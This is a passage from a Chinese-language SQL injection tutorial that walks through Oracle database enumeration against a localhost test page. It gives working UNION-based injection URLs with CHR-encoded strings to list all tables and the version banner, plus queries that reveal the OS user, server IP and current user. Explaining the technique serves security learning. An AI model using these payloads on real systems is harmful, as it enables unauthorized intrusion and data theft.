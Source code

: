接下来的任务就是收集信息了，上面我们已经收集到数据库所有的用户的用户名和我们当前用户的权限。

获取所有的数据库表：

```
http://localhost/SqlInjection/index.jsp?id=1 UNION ALL SELECT NULL, NULL, NULL, NVL(CAST(OWNER AS VARCHAR(4000)),CHR(32))||CHR(45)||CHR(45)||CHR(45)||CHR(45)||CHR(45)||CHR(45)||NVL(CAST(TABLE_NAME AS VARCHAR(4000)),CHR(32)) FROM SYS.ALL_TABLES WHERE OWNER IN (CHR(67)||CHR(84)||CHR(88)||CHR(83)||CHR(89)||CHR(83),CHR(69)||CHR(88)||CHR(70)||CHR(83)||CHR(89)||CHR(83),CHR(77)||CHR(68)||CHR(83)||CHR(89)||CHR(83),CHR(79)||CHR(76)||CHR(65)||CHR(80)||CHR(83)||CHR(89)||CHR(83),CHR(83)||CHR(67)||CHR(79)||CHR(84)||CHR(84),CHR(83)||CHR(89)||CHR(83),CHR(83)||CHR(89)||CHR(83)||CHR(84)||CHR(69)||CHR(77),CHR(87)||CHR(77)||CHR(83)||CHR(89)||CHR(83))—

```

连接符我用的是-转换成编码也就是45 ￼![enter image description here](http://drops.javaweb.org/uploads/images/90e1d2c55560b189302f6d1c6ef054eb070680d0.jpg)

已列举出所有的表名： ￼![enter image description here](http://drops.javaweb.org/uploads/images/07b5198f2df1d51f66d3c31626191b0c5ef2bb0d.jpg)

当UNION ALL SELECT 不起作用的时候我们可以用上面的Oracle分页去挨个读取，缺点就是效率没有UNION ALL SELECT高。

信息版本获取：

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 UNION SELECT NULL, NULL, NULL, (select banner from sys.v_$version where rownum=1) from dual—

```

![enter image description here](http://drops.javaweb.org/uploads/images/1d74ee4fe4f4f91b0331c34fa3302fb4a31059d7.jpg)

获取启动Oracle的用户名:

```
select SYS_CONTEXT ('USERENV','OS_USER') from dual;

```

服务器监听IP:

```
select utl_inaddr.get_host_address from dual;

```

服务器操作系统:

```
select member from v$logfile where rownum=1;

```

当前连接用户:

```
select SYS_CONTEXT ('USERENV', 'CURRENT_USER') from dual;

```
